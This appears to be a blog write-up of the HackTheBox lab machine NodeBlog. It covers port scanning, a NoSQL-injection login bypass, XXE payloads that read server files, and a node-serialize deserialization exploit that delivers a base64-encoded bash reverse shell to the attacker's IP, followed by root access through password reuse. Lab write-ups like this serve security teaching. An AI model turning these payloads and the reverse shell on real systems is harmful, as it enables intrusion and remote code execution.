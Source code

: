 ```yaml
---
layout: post
comments: false
title: "NodeBlog HTB Write Up"
tags: ['hackthebox', 'writeup', 'nosqlinyection']
---
```


## Introduction
Hello everyone! Today we are going to be pwning a HTB machine called NodeBlog. This is an easy machine, but we are going to be covering a few fundamental attacks like xxe-injection or nosql-injection as asuch as deserialization (in node.js). Have fun reading!
hi


## Ports recognizement
The ip address of the machine is 10.10.11.139
We are going to recognise all the post open on the machine and export the result into a grepeable file:
```bash
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.11.139 -oG ports
```
The ports open are 22,5000

We are going to scan this ports and export into a nmap file
```bash
nmap -sSV --min-rate 5000 -vvv -p22,5000 -n -Pn 10.10.11.139 -oN services
```
We can see there is a ssh service running at port 22 and a http (node.js) service running at port 5000

## Inspect the web and fuzzing
While we inspect the web we are going to leave wfuzz fuzzing the site in case it find something relevant.

```bash
wfuzz --hc 404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -u 10.10.11.139:5000/FUZZ
```

We can see a green login button. Let's proceed.
We can see a login form.
We can try some sql inyection inputs like ' or ' -- -
but won't work. 

We have to test also nosql inyection. [PayloadAllTheThings][attp] have some exploit to bypass login form.
We are going to use burpsuite to intercept the response and modify the fields on the forms.

If we input random logins we hace the response Invalid Username, but if we set in the username field admin and in the password random text we get Invalid Password, so we have a method to get users.
Now we can try bypass the password with nosqli.
```bash
{"user": "admin", "password": {"$ne": null}}
```
Also we can make a script to dump all posible usernames ans their relative passwords [nosqlforce.py][nsqlf]

> WE ARE INSIDE :boom:

We see an upload button. We try to upload a random file and we get this response:


This might be a vulnerability to XXE inyection.
Also [PayloadAllTheThings][attpxxe] cover this subject with some payloads.
We can try some payloads like 
```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
In /etc/passwd we set the path to the file we want to see.
We create an xml file with this payload and we can try to upload this.

We have a response that tell us that we give the xml in the incorrect format. If we inspect the code we can see that the correct format is:
```html
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

So we modify our payload to follow that structure:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post>
        <title>Example Post</title>
        <description>Example Description</description>
        <markdown>&file;</markdown>
</post>
```
The &file; contains the output of the payload.

If we look into the source code of the web site we can see the /etc/passwd file wich contains multiple users of the system.

At his point we can enumerate multiple files of the machine.
We can make a simple script which is going to help to enumerate the site faster [xxe-file-dumper.py][xfd]

Let's continue looking the website. If we try to post another article by our own we get an error:

We can see the web is hosted on the /opt/blog.
We can look for a server.js or main.js file which usually have the main server code of the web server. Let's try it. We are going to use [xxe-file-dumper.py][xfd]

```bash
python3 xxe-file-dumper.py -u http://10.10.11.139:5000/articles/xml -f /opt/blog/server.js
```

We can see the we have an output file:
```node
const express = require(&#39;express&#39;)
const mongoose = require(&#39;mongoose&#39;)
const Article = require(&#39;./models/article&#39;)
const articleRouter = require(&#39;./routes/articles&#39;)
const loginRouter = require(&#39;./routes/login&#39;)
const serialize = require(&#39;node-serialize&#39;)
const methodOverride = require(&#39;method-override&#39;)
const fileUpload = require(&#39;express-fileupload&#39;)
const cookieParser = require(&#39;cookie-parser&#39;);
const crypto = require(&#39;crypto&#39;)
const cookie_secret = &#34;UHC-SecretCookie&#34;
//var session = require(&#39;express-session&#39;);
const app = express()

mongoose.connect(&#39;mongodb://localhost/blog&#39;)

app.set(&#39;view engine&#39;, &#39;ejs&#39;)
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride(&#39;_method&#39;))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: &#34;UHC-SecretKey-123&#34;}));

function authenticated(c) {
    if (typeof c == &#39;undefined&#39;)
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash(&#39;md5&#39;).update(cookie_secret + c.user).digest(&#39;hex&#39;)) ){
        return true
    } else {
        return false
    }
}


app.get(&#39;/&#39;, async (req, res) =&gt; {
    const articles = await Article.find().sort({
        createdAt: &#39;desc&#39;
    })
    res.render(&#39;articles/index&#39;, { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use(&#39;/articles&#39;, articleRouter)
app.use(&#39;/login&#39;, loginRouter)


app.listen(5000)
```

We can see that the server is using an unserialize function without sanitaze input. This can be a desirializing vulneravility.

Usually the unserialize input is the cookie, because this and It's called c the code is probably deserializing the cookie.

The problem about the insecure deserilization is that if you use IIFE you can execute code when the function is deserializting even before the string is interpreted. So we can send the payload into the cookie, when the server desirialize the string, this will be executed even the cookie doen't have any sense.
This [post][deserialize_post] explain it pretty well.
The payload is the next:

```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls', function(error, stdout, stderr){console.log(stdout)});}()"}
```

We can inject a revershell payload into the code that we want to run.
```bash
bash -i >& /dev/tcp/{your_tun0_ip}/443 0>&1
```
In order to pass this code into the url we have to convert it in base64
```bash
echo 'bash -i >& /dev/tcp/{your_tun0_ip}/443 0>&1' | base64
```
In the victim's machine we have to reverse the base64 format, so our final revershe shell payload is:
```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0MyAwPiYxCg==|base64 -d|bash
```
We mix it the the rec payload, the result:
```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzQ0MyAwPiYxCg==|base64 -d|bash', function(error, stdout, stderr){console.log(stdout)});}()"}
```

With burpsuite we modify the cookie when we make a get request to the main page, we introduce the payload into the cookie. Mention that we have to previusly url encode this entire payload beacuse they are special character that mean's another thing in a url format (like ;).
Encoding all will asure us that the payload will work fine.

We start listening with netcat in the 443 port
```bash
sudo nc -lnvp 443
```

We send the payload, and we have a shell!
We can try to capture the flag which is alocate at /home/admin/user.txt
For some reason we dont hace permission to read the content of the folder, but our user owns the folder, so we just can chnage permission of the folder with
```bash
chmod +x /home/admin
```
Now we can see the flag!
```bash
cat /home/admin/user.txt
```

## Privilige escalation
We can try use the same password to the super user
```bash
sudo su
```
We introduce the password which we captured before when we dump the password of admin user with [nosqlforce.py][nsqlf].
They reuse the password so we are already logged root.
We can capture the flag which is located at /root/root.txt
```bash
cat /root/root.txt
```

Thank's all for reading! 📖


[nsqlf]:https://github.com/isuckatlinux/htbmachines/blob/main/nodeblog/scripts/nosqlbruteforce.py

[deserialize_post]: https://sking7.github.io/articles/1601216121.html

[xfd]: https://github.com/isuckatlinux/htbmachines/blob/main/nodeblog/scripts/xxe-file-dumper.py
[attp]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection

[attpxxe]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
